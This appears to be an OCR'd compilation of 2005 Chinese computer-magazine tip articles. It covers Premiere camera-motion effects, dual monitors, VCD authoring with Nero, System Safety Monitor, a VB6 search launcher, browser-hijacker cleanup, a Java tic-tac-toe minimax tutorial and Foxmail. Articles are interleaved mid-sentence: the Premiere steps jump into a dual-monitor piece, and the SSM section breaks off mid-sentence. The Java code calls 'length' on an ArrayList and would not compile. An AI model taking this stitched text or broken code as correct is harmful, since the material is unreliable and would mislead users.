- 第七步：最后，执行“文件→时间线输出→电影”（或按快捷键Ctrl + M）调出输出对话框，取好文件名并单击“保存”按钮，即可将上面的作品导出为AVI格式的电影了。单击输出对话框下方的“设置”按钮，还可以选择GIF、FLC、MOV等其他的动画文件格式。如果执行“文件→时间线输出→Adobe MPEG编码器”命令，还可将当前影片压缩成MPEG-1或MPEG-2格式，最后刻录到VCD或DVD光盘上。

#### 实例2：照片也能转电影

“推拉摇移”是电影中经常运用的镜头手法，而我们手中只有些静态的数码照片，能不能也实现这种特效呢？下面就让我们在Premiere 6.5中尝试一下。

- 第一步：制作前需要准备两张数码照片，制作摇移镜头效果需要宽幅（图片宽度最好大于高度的1.5倍以上）的照片，而推拉镜头效果对照片的高宽比没什么要求，但清晰度要高一些。
- 第二步：启动Premiere后，在工程设置窗口中选择建立PAL格式的影片，按下Ctrl + I快捷键将宽幅照片导入素材窗口中，然后将其拖入视频1A轨道，拖动照片素材的尾部将播放时间拖长为4秒。
- 第三步：单击选中视频轨道上的照片片段，再在“效果控制”面板上（如该面板未显示，可执行“窗口→显示效果控制”命令将其调出。# 双屏就是这么神奇

液晶显示器越来越便宜，于是很多人将新购买液晶显示器和原来的CRT显示器组成双显示模式，更有人同时购买了同一型号的两台显示器。在使用双显示器中有些小技巧你发现了吗（以下以主显示器为“显示器1”，副显示器为“显示器2”）？

## 1. 双显示视频不再变小

- 第一步：在显示器1的桌面空白处右击，选择“属性”，点击“设置→高级”，在弹出窗口中点击显卡标签（如GeForce 6600GT）。
- 第二步：在窗口左侧选择“全屏幕视频”，在右侧的“全屏幕设备”下选择“自动选择”，点击“确定”（见图1）。



- 第三步：打开经常使用的视频播放器，这里以“暴风影音”为例。选择菜单命令“查看→选项”，在弹出的“选项”窗口左侧选择“输出”，在窗口右侧将“DirectShow视频”设置为“VMR9（无转换）”，将“RealMedia视频”及“QuickTime视频”设置为Directx 9。
- 第四步：现在只要播放视频，在显示器2上就能看到全屏的视频了，而不管在显示器1上做任何操作都不会影响显示器2上的全屏视频。

## 2. 双显示=16:9显示器

- 第一步：按照上例中第一步的方法打开显卡选项卡。
- 第二步：在窗口左侧选择“nView显示设置”，在窗口左侧选择“水平跨越”，点击“确认”（见图2）。同时确认暴风影音已经按照上例第三步的方法修改完成。



- 第三步：这时你会在“显示属性”的“设置”标签下看到显示器1已经变成16:9的模式。
- 第四步：用暴风影音播放全屏视频，这时一般会在屏幕两侧出现黑边，我们可以在右键菜单中选择“全景和扫描→缩放至宽屏幕”项即可（见图3）。

## 3. PPT幻灯播放超强密技

经常用PPT演示的朋友一定要注意下面的技巧，因为它将教会你如何正确用好“备注”功能，以及充分利用投影仪及笔记本电脑组成的双显示系统（见图4）。


现在很多人在进行PPT演讲时，笔记本显示器与投影仪（也可以算是显示器）画面是相同的，根本使用不上“备注”功能，这也让备注功能失去了意义，下面我们就来告诉大家如何才能正确利用此功能（此技巧需要使用Office XP/2003）。

- 第一步：连接好幻灯机，打开演示所用的PPT，在窗口下侧“单击此处添加备注”窗格中输入备注内容，此处的备注可以是任何内容，比如针对该幻灯片的整个演示文稿（见图5）。
- 第二步：选择菜单中的“幻灯片放映→设置放映方式”，在窗口中“多监视器”项“幻灯片放映显示于”下拉菜单中选择“监视器2 默认监视器”，同时勾选“显示演示者视图”（见图6）。


第三步：按下 F5 键，开始播放，这时投影仪就会显示出 PPT 文稿，而在你的笔记本电脑屏幕中，则显示的是带有备注的文稿（见图7）。 这样只要对照着笔记本屏幕，不仅可以知道每张 PPT 的大致内容，而且还可以直接阅读‘备注’，更好地控制演讲时间。 （ST TB）

### (1) 摇移镜头的设置

在动作设置窗口右上角的设置框中，可以看到有两个节点，左侧是动作开始点，右侧是结束点。首先点击一下开始点，然后在右下角的“失真度”框中拖拉图片四角的节点，调整恢复图片的宽幅属性，再移动开始点，使图片的右边缘与可见区域的灰框的右边缘对齐；同样方法，点击动作的结束点，在“失真度”框中调整好图片后，移动结束点，使图片的左边缘与可见区域左边缘对齐。设置完毕，可以在左侧预览框中，看到这幅风景照片如同电影一样，慢慢从左到右实现了摇移镜头的效果（见图5）。


### (2) 推拉镜头的设置

依前面方法进入动作设置窗口后，首先将动作的开始点拖到可见区域的中心，调整图片大小与可见区域完全重合，使影片一开始显示全景。接着点击动作的结束点，也往可见区域的中心区域拖动，使图片中的白塔处于中心位置，然后在窗口底部的参数栏里将“缩放”参数由默认的100%增大至200%。这时在预览框中可以看到，一开始显示风景全貌后会慢慢地推拉镜头，最后画面固定在选定的白塔上（见图6）。


第四步：制作好后点击“确定”返回主界面，按下 Ctrl + M 快捷键导出电影即可。

（山东 阳光灿烂 猫咪老爸）

# 解决FlyakiteOSX字体变小问题

本刊《资源和美丽我全要 XP完美克隆Mac OS》一文介绍了让Windows XP变Mac OS的方法，不过安装后显示字体较小，其实还是办法解决的。安装完FlyakiteOSX后，只要右击桌面空白处，选择“属性→外观”，修改“窗口和按钮”为Panther，其他选项不必修改，即可解决窗口字体偏小的问题了。

> 小编有话说：除wincha外，江苏读者XIAOXIAO也在第一时间发来了解决方案，作为鼓励，我们将送给他一份精美礼品。 (incha)

# 利用 NeroVision Express 轻松自制专业 VCD

平常喜欢旅游的小明，经常用手中的 DV 拍下各地风光，没想到文件越来越多，很不好整理，而且刻成 VCD 光盘后也非常不方便。经常是要看完一段再看一段，非常麻烦。后来他偷偷从一个高手那里学到了 VCD 2.0 制作的方法，问题立刻解决了。VCD 2.0 具有一些 DVD 的特性，比如有菜单选项，还提供有章节选项，让你想看哪，就看哪，立刻就看，不用再跳来转去了。那你知道 VCD 2.0 是如何制作的吗？来看看小明是怎样用 Nero 的视频工具软件 NeroVision Express 制作吧。

## NeroVision Express 小档案

软件版本：3.1.0.0
软件大小：35750KB
软件性质：共享软件
适应平台：Windows 9x/2000/XP（需 Directx 9）
下载地址：http://www.onlinedown.net/soft/3189.htm
简体语言包下载地址：http://www.onlinedown.net/soft/15967.htm

假设手边有两个视频文件，目标是制作含有两个主菜单项，每个主菜单项下面又有三条命令的 VCD 2.0 影碟。

## 第一步：将制作 VCD 2.0 影碟使用的视频文件复制到硬盘。运行程序，打开‘NeroVision Express 3 [开始]’窗口，单击‘制作光盘→视频光盘’命令进入下一步。

如果 NeroVision Express 安装了 Nero DVD-Plugin，‘NeroVision Express 3 [开始]’窗口的‘制作光盘’菜单就会增加‘超级视频光盘’和‘miniDVD’两条命令，可以使用下面介绍的方法制作 SVCD 或 miniDVD 影碟了。

## 第二步：单击如图 1 所示窗口中的‘添加视频文件’项，将刻录影碟使用的视频文件导入。NeroVision Express 支持的文件格式非常丰富，包括 ASF、AVI、DV、VOB 和 WMV 等。

## 第三步：VCD 播放菜单的顺序由‘标题’（就是显示在如图 1 所示窗口中的文件）排列决定。如果需要调整窗口中的文件排列顺序，选中要移动的文件单击窗口左上角的‘上移’或‘下移’按钮即可。同理，选中窗口中的‘标题’单击左下角的‘删除标题’或‘重命名标题’按钮即可执行相应操作。

‘删除标题’与‘重命名标题’按钮之间有一个‘合并’按钮，使用与否和如何设计播放菜单有关。因为两个视频文件组成的



VCD 播放菜单有两种形式：一是为两个‘标题’分别设计主菜单，这样可以任意选择其中一个文件播放，但两个文件不能连续播放。二是将两个‘标题’合并为一个，然后为合并后的标题制作一个主菜单，最后通过‘创建章节’设计对应两个视频文件的命令，这种方法的优点是两个文件可以合在一起连续播放，但播放某个文件必须打开主菜单进行选择。合并‘标题’时只须将要合并的对象全部选中，单击‘合并’按钮就可以使窗口中的‘标题’合二为一，并且 NeroVision Express 会将它们看成一个文件处理。这里当然是要根据你的选择来进行处理。



在窗口右侧的‘编辑电影’和‘创建章节’命令能实现许多特殊效果。如果希望使用文件中的某一场景作为播放菜单中的图片，可以先在左侧选择好视频文件，再单击‘编辑电影’打开‘监视器’窗口（见图2）。拖动开始标记使‘监视器’中显示需要的画面场景，单击窗口中的‘下一个’按钮即可在如图 1 所示窗口中看到效果。 我们还可以使用‘监视器’删除视频文件中不需要的部分：首先按相同方法打开如图 2 所示‘监视器’，单击其中的‘剪切’按钮进入‘剪切模式’。然后拖动‘监视器’下面的‘剪切开始’和‘剪切结束’标记到需要的位置，再单击‘剪切’按钮即可将带有红色网格线部分的视频剔除。 如果希望将视频文件中的某一场景作为某一章节的开始，可以选中如图 1 中的视频文件单击‘创建章节’打开如图 3 所示窗口。单击‘监视器’工具栏右起第二个按钮‘自动检测章节’，完成后即可将自动标记结果显示在如图 3 所示窗口右侧。如果设置的结果并不完美，也可以采用手工标记章节的方法，也就是拖动‘监视器’下面的标记，当



## 第四步：上面的操作完成后单击‘下一个’按钮，就可以开始设计 VCD 播放菜单的样式了（见图 4）。



首先，需要修改的是 VCD 节目的名称，我们只要选中如图 4 所示中的图片和对应的名称，单击‘属性’按钮就可以打开对话框进行修改，并决定‘显示画面’还是仅仅显示菜单的文字。

接下来就可以使用‘配置’、‘背景’等项，对 VCD 的菜单进行优化设计。例如‘配置’提供了许多预设的菜单图片和按钮的版式，‘页眉/页脚文本’对话框供我们在菜单上方或下方添加文字等等。尽管这些功能看起来挺多，但由于是‘所见即所得’，所以操作起来非常容易。

## 第五步：在窗口的‘选择菜单’下拉列表中选择‘主菜单’，单击‘下一个’按钮在文件就可如图 5 所示‘预览’窗口中检查节目播放和菜单设计了。 单击如图 5 中‘遥控器’上的‘左’、‘右’按钮，可以选择要播放的节目，而后单击‘输入’按钮就可以展开该节目的下一级菜单。再用相同方法选中要播放的章节，单击‘播放’按钮就可以从指定的章节处开始播放。 这个‘遥控器’的使用与普通 VCD 机基本相同，熟悉一下非常容易上手。



## 第六步：NeroVision Express 让我们在窗口中选择刻录设置，主要包括‘刻录到’、‘卷名’（即光盘名称）和‘刻录设定’。只要注意‘卷名’不要使用中文就可以了。最后，单击‘刻录’按钮将我们的杰作刻录成 VCD。 （新疆 张迎新）



# 只要改个名 RMVB 就变 VCD

我们在网络上可以下载到大量的RMVB格式电影，但如果想把这些电影刻成VCD光盘在普通影碟机上观看，通常需要先用专门的格式转换工具将RMVB文件转换为MPEG格式才能进行刻录。其实不用这么复杂，这里笔者还有更简单方便的方法，让你直接刻录RMVB电影。

首先有个前提条件，在你的系统中要安装有RMVB解码器，如果双击RMVB文件能正常播放，就说明具备这个条件了。如果没有，建议安装暴风影音之类的播放器，这样可以一次安装就所有的编解码器了。当然，还有个要求，就是系统中要安装有NERO刻录软件。

**小提示**：把RMVB扩展名改为AVI，目的是骗过NERO进行直接刻录。由于AVI并不是一种专用的视频编码标准（有多种视频编码都使用了AVI扩展名），所以在更改扩展名后，NERO依然会调用RMVB解码器对其进行正常解码，从而实现直接刻录。

第一步：把RMVB文件的扩展名更改为AVI，这里要注意的是，许多朋友在“资源管理器”中直接修改扩展名时，很可能会改成“.AVI.RMVB”的格式，这是系统默认隐藏了已知文件类型扩展名的原因，你需要在“资源管理器”中单击“工具”菜单中的“文件夹选项”，在“查看”选项卡中去掉“隐藏已知文件类型的扩展名”选项即可（见图1）。



第二步：打开NERO刻录软件，在“新编辑”对话框中选择“视频光盘”，单击“新建”按钮打开一个刻录编译窗口。在右边的资源管理窗口中找到要刻录的RMVB文件（已经改名为AVI扩展名），将其拖到左边的“视频/图片”列表中。这时在列表中可以看到RMVB文件的播放时间，下面的光盘容量标尺上显示的就是转换为VCD后的大小（见图2），由于RMVB文件转为VCD格式后，体积会成倍增加，因此要特别注意这里的提示，不能超过你使用的光盘容量，否则就无法刻录完成。



由于通常情况下一部完整的电影是需要两张VCD碟片的，所以在直接刻录RMVB电影时，要选择那种一部电影压制成两个RMVB文件的，而那些一部电影只用一个RMVB文件的，通常转换后会大大超过一张光盘的容量，而无法直接刻录。

第三步：单击“刻录器”菜单中的“刻录编译”命令即可直接进行刻录了，在刻录前NERO会自动对RMVB文件进行解码，并转换为标准VCD格式，所以整个刻录过程会显得比较慢一些，但它的转换速度还是比较快的，在笔者的电脑上，59分钟的电影转换时间用了42分钟。刻录完成后，你就可以在普通影碟机上欣赏精彩的电影了。
（河南 自由风）

# 给 Windows 装个强力监控

看过《我是这样追踪鸽子的——如何查杀隐形木马》，不少读者对其中介绍的System Safety Monitor（以下简称为SSM）很感兴趣。它是一款俄罗斯出品的系统监控软件，通过监视系统特定的文件（如注册表等）及应用程序，达到保护系统安全的目的。在某些功能上比我们之前介绍过的Winpatrol更强大。

- System Safety Monitor 小档案
软件版本：1.9.6 Beta 2
软件大小：700KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://mc.webkm.ru/ssm.zip
软件备注：①SSM的测试版本均限制使用时间（比如现在这个版本可以用到5月），不必担心，软件到期后会提示下载新版本，你也可以多留意主页（http://maxcomputing.narod.ru/ssme.html?lang=en）。②推荐在Windows 2000/XP中使用SSM，在Windows 9x中可能会出现问题。

安装并启动（可能需手动到安装目录中运行SysSafe.exe）SSM后，点击弹出的LOGO窗口中的Close this windows（关闭窗口）项，关闭该窗口。这时SSM已经启动，并开始进行监视，我们可以在系统托盘内看到软件图标。

## SSM 贴身保护你的 Windows

SSM 既然自称 System Safety Monitor（系统安全监视器），那么就要看看 SSM 的拿手绝活。

### 1. 打开SSM 的监控

第一步：打开System Safety Monitor – Preferences窗口，点击Plugins（插件）标签。
第二步：确认Enable Plugins（激活插件）项已被勾选，这时SSM可以对Start Menu（“开始”菜单中的启动组）、Services（加载的系统服务）、Registry（注册表启动项）、INI Files（系统INI文件）及IExplore（IE）实施全方位监控（见图2）。



图3 此窗口默认在3秒后自动关闭，如想再次打开，则右击系统托盘软件图标，选择Show PlugIn log

## 功能强大的程序监控

SSM 另一强大而有用的监控就是应用程序监控，它能监控程序开启过程的一举一动。并且不管这个程序是以何种方式开启，无论是用户双击直接打开，还是由其他程序间接打开，甚至是由于系统漏洞而被悄悄执行的错误程序（包括病毒），也不管这个程序是何种格式（EXE/DLL等），SSM 只要发现有新程序被开启，均会报告用户，最终由用户决定该程序是否运行。

### 实战SSM 的程序监控

现在很多软件的安装程序，在给用户安装软件的同时，还会“默认”安装一些用户不需要的东西（广告/插件等）。一旦你安装了这种软件就同时在不知情之下往硬盘“塞垃圾”。这时，SSM 就能发挥拦截作用了。
SSM 默认是未开启程序监控，需要用户自行开启，方法很简单，只要右击系统托盘内软件图标，选择Watch App Activity（监视应用程序）即可。
笔者再运行含有广告插件的软件，如“QQ 自动聊天器”，在安装时除了原程序，SSM 提示还有新程序想运行（见图4）。在这里，SSM 的程序监控对于程序开启提供五个不同的选择。所对应的快捷按键分别是F1到F5，每项都各有含义：F1是“总是允许”，F2是“总是阻止”，F3是“只允许系统管理员，不包括其他用户”，F4是“只允许这一次”（默认选项），而F5是“只阻止这一次”，而这里自然要按F2或F5。之后继续安装，但居然又出现了广告插件，自然使用相同方法将其拦截即可。
如果是病毒，SSM 也同样不含糊：笔者空闲时也喜欢下载电子书看看。但如果下载下来的电子书是夹带了病毒，并且防病毒软件没有检测到怎么办？不要紧，还有SSM。前段时间笔者从网上下载了EXE格式的电子书，打开该电子书后，SSM 的程序监控很自然请## 小提示

在如图4所示界面中点击Scan项，可启动杀毒软件对程序进行杀毒。但要注意需要先在SSM中设置好杀毒软件目录，否则，这里会显示Locate。杀毒软件设置方法如下：打开System Safety Monitor - Preferences窗口，点击Options项，在窗口左侧点击Misc，然后在窗口右侧的Antivirus中设置即可(见图5)。

## 2. 添加修改应用程序规则

如果希望针对不同的程序设置不同规则，可以在 SSM 中进行详细设置。
第一步：打开 System Safety Monitor – Preferences 窗口，点击 Application Rules (应用程序规则) 标签。
第二步：这里列出了所有正在运行的程序，然后将 Rule (规则) 默认的 Allowed (F3) 修改为 Blocked (F2) 则会阻止该程序运行。
第三步：双击程序，可打开针对该程序的高级规则设置窗口，可进一步设置该程序是否能被其他软件所调用或是调用其他软件(见图6)。

## 小提示

SSM在监控之外

★ “黑名单”功能：如果不想别人使用你的 MSN Messenger 及 Outlook Express，可以打开 System Safety Monitor – Preferences窗口，点击Windows标签下的Filters项，添加上“MSN Messenger”(不含引号)及“收件箱 – Outlook Express”(不含引号)两项，再右击系统托盘SSM图标，勾选Filter windows captions(窗口标题过滤)项。这样两个程序只要一打开就马上消失掉。你可根据自己的需要将其他程序窗口标题栏填到这里即可。
★ 导出配置文件：点击 System Safety Monitor – Preferences窗口中Service标签下的Save current config file as 备份你的配置文件，以便升级或重装时使用。

(广东 Qoo 酷儿)

## DIY 集多引擎为一身的搜索器

搜索引擎给我们带来了莫大便捷，但众多搜索引擎各有特色，于是我们经常希望输入一个关键词就能得到多个搜索引擎提供的结果。这方面的工具蛮多，即使自制也并不困难，今天就和我们一起用 VB 6.0 自制一个具有自主产权且小巧玲珑的网络搜索器吧！

## 1. 开发步骤

首先运行VB6.0建立一个“标准EXE”的工程文件，根据如图所示添加一个文本框和一个标签框，根据自己对搜索引擎的喜好添加若干个Command按钮控件。

接着在代码编辑框的声明部份添加“ShellExecute”函数声明，然后再添加 Command 按钮代码，代码如下：

```
Private Declare Function ShellExecute Lib “shell32.dll” Alias “ShellExecuteA” (ByVal hWnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long
Private Sub Command1_Click()
Dim url As String
' 碰到错误后继续运行
On Error Resume Next
' 提示在文本框中输入搜索关键字
If Text1.Text = "" Then
MsgBox "请先输入查找关键字!", "错误": Exit Sub
End If
' 调用浏览器显示百度搜索的结果
ShellExecute hWnd, "open", "http://www.baidu.com/baidu?wd=" + Text1.Text, "", "", 1
End Sub
```

如果你想添加更多的搜索引擎，只要添加 Command 按钮和相应代码，代码按照上面的格式添加即可，惟一要改动的是第四句代码的网址，比如添加 Google 的网址那么代码就是
`ShellExecute hWnd, "open", "http://www.google.com/search?q=" + Text1.Text, "", "", 1`
最后，保存编译程序，具有自主产权的搜索器就完工了！

## 2. 功能扩展

怎样获得搜索引擎的代码呢？其实有一个最简单的办法：首先通过 IE 打开搜索引擎，随便输入几个关键字，单击搜索。然后再看看 IE 地址栏，去掉我们随便输入的关键字，剩下的就是要的搜索引擎代码了。下表是我们经常用的搜索引擎代码表：
此外，还可以给这个程序加入系统热键即时呼出等功能，这样便可以随心所欲地搜索天下了。
本例在 Windows 2000、VB6.0 下调试通过。源代码以及可执行程序可以从 http://www.cfan.com.cn/11program/200506/netsearch.zip 下载。

| 搜索引擎 | 代码 (此代码也可直接在 IE 的地址栏中使用) |
| :--- | :--- |
| Google | http://www.google.com/search?q= |
| 百度 | http://www.baidu.com/baidu?wd= |
| 雅虎 | http://cn.search.yahoo.com/search/cn?p= |
| 一搜 | http://music.yisou.com/search?p= |
| 搜狐 | http://site.search.sohu.com/sitesearch.jsp?key_word= |
| 华军 (站内搜索) | http://search.onlinedown.net/search.asp?Keyword= |

(山东 安丘 周斌斌)

## 浏览器劫持怎么办

所谓浏览器劫持是指网页浏览器 (IE等) 被恶意程序修改。常见现象为主页及互联网搜索页变为不知名的网站、经常莫名弹出广告程序、输入正常网站地址却连接到其他网站、收藏夹内被自动添加陌生网站地址等。下面我们就来了解一些对付浏览器劫持的方法。

## 1. 修改HOSTS文件

HOSTS 文件存在于 Windows 目录下的 System32\Drivers\Etc 目录中。如果恶意网页将正常的域名映射到恶意网页的 IP 地址，则输入正常网址便会连接到恶意程序指定的网页上。
当输入正常网站地址却打开一个不知名的网站，则很有可能是因为 HOSTS 文件被修改。用“记事本”打开 Windows 目录下 System32\Drivers\Etc 目录中的 HOSTS 文件，手工删除被恶意程序添加的项目并保存文件，就可以正常访问你要浏览的网站了 (如果未使用过该文件，则直接删除所有内容后保存也可)。

## 2. 修复注册表

IE 默认起始页的修改项位于注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main` 和 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main` 两个子键中，因此通过对注册表的修改就可以控制这些项目的内容。
在瑞星杀毒软件2005版中附带了一个注册表修复工具——“瑞星注册表修复工具”，它可自动检测IE的配置并进行修复，修复前还会进行备份，防止误操作。

## 3. 通过浏览器加载项方式及木马进行劫持

一些恶意程序作为 IE 加载项 (Plugins) 的方式启动自己，每次启动 IE 浏览器后都会自动运行恶意程序。通常恶意程序用来定时弹出广告，在 IE 的右键菜单中添加恶意网站链接以及动态修改注册表等。另外，通过木马方式运行的浏览器劫持程序，目的与浏览器加载项方式类似，只是自启动方式不同。这种木马方式的劫持程序运行更隐蔽，清除更复杂，可以自动更新程序，并且可能同时具备上面几种劫持方式。
这两种方式的浏览器劫持处理起来比较复杂，这里推荐一个小工具—— Hijackthis，它可以列举出机器中的启动项目以及 IE 的加载项信息，并允许用户进行修改。在瑞星的网站上有该软件的相关专题，地址: http://it.rising.com.cn/newSite/Channels/anti_virus/Antivirus_Faq/TopicExplorerPagePackage/hijackthis.htm。利用此工具需要具备一定的专业知识和经验，对于一般用户操作较为复杂并有一定风险。

(瑞星工程师 史瑀)

Cfan Bound Edition 2005

189

## Java咖啡馆(13)——终结者

通过各种试验，科学家发现自然界中许多被认为是聪明的动物的智慧仍然无法与人类幼儿时期的相比拟。而每天面对的计算机，虽然使得人类的生产力发生翻天覆地变化，但冰凉的它，是否有一天能够模仿甚至达到人类的智慧呢？

## 计算机的智慧

如何定义人类的智慧，即使最睿智的哲学家也只能望洋兴叹。不过，我们不妨由浅入深。如果一向自信十足的你在网上与网友对弈楚河汉界时，遇到一个与你杀得难解难分甚至略胜一筹的高手，当你英雄惜英雄，邀请那高人红茶馆小聚一番，却被告知那是某公司象棋程序2.0而不是一个真人在下棋时，你一定会由衷发出赞叹——计算机真是聪明啊！

所以，从休闲的棋牌游戏入手，是探究计算机智慧有益的第一步。实际上，早在1950年，Claude Shannon和Alan Turing已编写过下棋的程序，前者是信息论的创始人，而以后者名字命名的图灵奖更是计算机科学中的最高奖项。

当时的工作是基于两个玩家互相博弈的基础上的。计算机科学家们把棋局的状态看作结点，把从当前棋局走一步而变化出来的新的棋局当做结点的子结点，如果把原始棋局看作树根，就可以把棋局的所有变化演化成一棵倒置的树来，我们称之为游戏树。这样，便可以从最底部的结果来倒推，从而决定走对自己最有利的一步棋。

游戏树的想法很直观，但这棵树实在太庞大了。比如西洋跳棋，完整的游戏树将达到10的40次方个结点的量级，假设一台计算机每秒能处理300个结点，将会花费10的21次方个世纪来构建这棵游戏树！而国际象棋更加复杂，按照每步平均35个可供选择的下法，平均每个玩家下50步棋，国际象棋的游戏树将会达到35的100次方的量级。盛行于中日韩三国的围棋更是比国际象棋复杂得多。

由于时间限制而游戏树几近无限，我们的可行方法不外乎两个字——砍树，也就是在游戏树的构建过程中只计算那些感兴趣的结点，而不管那些不怎么有意思的结点，结果相当于只生成了部分的游戏树，这样便可以把计算时间控制住。仔细想想，下棋也是这样的，当别人将军的时候，你自然只考虑如何解围，而不是如何去吃对方的子。当然，如何砍树并且砍得好，那是一门大学问。

## 教计算机玩Tic-Tac-Toe

相对于西洋跳棋、国际象棋和围棋，我们的Tic-Tac-Toe游戏可要简单得多，虽然手动构造游戏树也不是不可行，但那样的做法实在太逊了啦！我们要砍树！

这里给大家介绍的方法是MiniMax算法。所谓MiniMax算法，就是从当前棋局出发生成一颗n层深的游戏树，从树根开始轮流给每层结点赋予Max和Min的称号，并且按照一定的估计函数给最底层的结点赋值。然后，从下向上依次给每个结点赋值，若一个结点是Max结点，则把它子结点中的最大值赋给它，若是Min结点，则把它子结点中的最小值赋给它。如此这般，便可以得知树根选择哪个子结点才能得到最大效益。

实际，估计函数是用来限制游戏树深度的。这里介绍的估计函数是自己可能赢棋的通道数减去对手可能赢棋的通道数。以图1举例，假设计算机执圆圈，则圆圈可能赢的通道数是4个，而大叉可能赢的通道数只有2个，所以棋局对应的估计值=4-2=2（见图1）。

下面我们手动模仿计算机执大叉在开局时进行MiniMax算法的演算过程，让大家有个直观的理解。其中，MiniMax算法的估计函数就是上文介绍的，游戏树的深度为三层（见图2）。

最底层的结点的赋值都是根据估计函数得到的。在Min层，每个值都是底层结点中值的最小值，这表示充满智慧的对手可能使自己落到的最窘迫的下场。当Min层生成以后，计算机自然知道Min最右边的那个结点是最划算的，无论对手如何走，自己走正中的那一格总会占有相当的优势。

## Tic-Tac-Toe加强版

上一版的Tic-Tac-Toe智商肯定无法令人满意，既然有了MiniMax算法，为什么不动手实现一下呢？

在Eclipse中打开上回建立的项目。首先在TicTacToe类中加入估计函数evalauate()。这个估计函数与上文介绍的估计函数略有不同，这里通过线性函数考虑了更多的因素，强调了三连通棋局的重要性，以及提高了两连通棋局的地位。通过这个估计函数，读者朋友应该能够体会到砍树也是很有艺术性的，对于复杂的棋类，估计函数几乎决定了程序棋力的高下。源代码如下：

```
/**
 * 估计函数。
 * @param board 要被估计的棋盘
 * @return 估计值
 */
private int evalauate(int[] board) {
    int x2=0, o2=0, x1=0, o1=0;
    for (int i=0; i < lines.length; i++) {
        int[] line = lines[i];
        int sum = 0;
        for (int j=0; j < line.length; j++) {
            sum += board[line[j]];
        }
        switch (sum) {
            case 3:
                //圆圈联通
                return -100;
            case 12:
                //大叉联通
                return 100;
            case 8:
                x2++;
                break;
            case 4:
                x1++;
                break;
            case 2:
                o2++;
                break;
            case 1:
                o1++;
                break;
        }
    }
    return 3*(x2 - o2) + x1 - o1;
}
```

下面列出了应用MiniMax算法的模仿专业棋力的professional()函数，请各位朋友参考注释阅读：

```
/**
 * 拥有职业选手棋力的机器人下一步棋。
 */
public void professional() {
    ArrayList blanks = new ArrayList();
    // 获取当前棋局所有可以下的位置
    for (int i=0; i<9; i++) {
        if (board[i] == 0) {
            blanks.add(new Integer(i));
        }
    }
    // 若已经没有空格可以下了便和局
    if (blanks.size() == 0) {
        message = "平局";
        gameover = true;
        return;
    }
    // 利用MiniMax算法找出计算机最可能赢的一步棋
    int minBoards[][] = new int[blanks.size()][9];
    int max = -100, best = 0;
    for (int i=0; i<blanks.length; i++) {
        // 复制当前棋局
        int[] minBoard = (int[]) board.clone();
        // 测试下第一步棋
        minBoard[((Integer) (blanks.get(i))).intValue()] = CROSS;
        minBoards[i] = minBoard;
        // 剩下的空格就是Max的落子范围
        ArrayList maxBlanks = (ArrayList) blanks.clone();
        maxBlanks.remove(i);
        // 根据当前的测试棋局枚举Max的每一种可能下法
        int min = 100;
        for (int j=0; j<maxBlanks.size(); j++) {
            // 复制当前棋局
            int[] maxBoard = (int[]) minBoard.clone();
            // 测试下第一步棋
            maxBoard[((Integer)(maxBlanks.get(j))).intValue()] = NOUGHT;
            // Min将取这些Max的取值中最小者
            int value = evalauate(maxBoard);
            if (value < min) {
                min = value;
            }
        }
        if (min > max) {
            max = min;
            best = i;
        }
    }
    board = minBoards[best];
}
```

最后记得把mouseReleased()中的amateur()代码改成professional()，这样加强版的游戏就算完成了。运行一下，计算机是不是已经威风八面了？

## Tic-Tac-Toe终结版

由于篇幅所限，以上代码还有很多可以改进之处。

首先，Tic-Tac-Toe游戏棋盘非常有特色，用中学数学的术语来讲是中央对称的，所以在预测下一步可行的位置时，可以利用这个特性，只考虑其中几种情况即可。

其次，估计函数还可以进一步优化，有兴趣的朋友可以在网上搜索一下，这方面的论文也不在少数。

最后，MiniMax是一个经典的限制深度的算法，实际上，还可以在MiniMax的基础上限制树的广度，那就是Alpha-Beta算法。比如，我们以如图3所示为例。

## 抓只狐狸当邮差——Foxmail

前面介绍了Outlook(Office组件之一)，这款软件有着极强的管理及多人协作能力，在商务办公中如鱼得水。不过对于个人用户，其实简洁的Outlook Express、Foxmail等往往更为适用。今天我们就为大家介绍国内著名的邮件客户端软件——Foxmail。

## 菜鸟初试身手

### 实例1: 开门一件事，邮件账户轻松建

第一步: 从http://fox.foxmail.com.cn/download/fm50ch.exe下载并安装Foxmail 5.0，安装完成后，Foxmail会自动打开新建账户向导，连续单击“下一步”按钮，并按照向导窗口的提示，依次填好用户名、发送者姓名、邮件地址等信息。

第二步: 一般邮箱都支持POP3协议，在向导“指定邮件服务器”对话框中选择“POP3账户”(见图1)，填写好POP3服务器、账户名、密码、SMTP服务器等信息。这些信息是由电子邮箱服务商提供的，照着资料填写即可。



- **小提示**
目前国内免费邮箱一般都支持POP3和SMTP协议，但中华网免费用户(@mail.china.com)就不支持，Google的Gmail(@gmail.com)也只是有限的支持，Yahoo中国免费邮箱(@yahoo.com.cn)默认设置也不支持，使用这些邮箱的朋友必须选择“HTTP帐户”。另外，Foxmail通过提供代理服务器实现接收Hotmail/MSN邮箱的邮件，只要在向导窗口中输入类似123@hotmail.com的邮件地址，后面Foxmail会自动帮你填写除密码外的其他设置项。



第三步: 为了防范垃圾邮件，绝大多数邮件服务器发信时需要身份验证，如果你的邮箱有此功能，在向导最后的“账户建立完成”对话框中一定要单击选中“SMTP服务器需要身份验证”项，否则只能收邮件却不能发邮件。最后单击“完成”按钮完成邮箱账户的建立，进入Foxmail的主界面中。

如果有多个电子邮箱，可在进入Foxmail主界面后，单击菜单命令“账户→新建”重新调出Foxmail的向导窗口，重复上面步骤即可创建其他更多邮件账户了。

### Just Do It: 多个邮箱集中在一起管理

利用上面方法创建的邮箱，在Foxmail左侧上方窗格会出现多个邮箱项目，如果你更喜欢Outlook Express那样多个邮箱统一使用一个“收件箱”、“发件箱”……可以先创建一个邮箱(比如工作邮箱)，接着进入Foxmail右击左侧上方窗格“工作邮箱”并选择“属性”，在弹出窗口中进入“其他POP3”项，单击右侧“新建”按钮即可添加其他POP3邮箱。

### 实例2: 收发邮件，只是点一下按钮那么简单

第一步: 账户建立成功后，单击工具栏上的“收取”按钮，很快就会把邮箱中的所有邮件接收下来。在左侧窗格中单击“收件箱”切换到收件箱中，再在右侧单击相应邮件，即可在右下方窗格中浏览邮件内容了(双击邮件则可以在一个单独的窗口中显示邮件内容)。

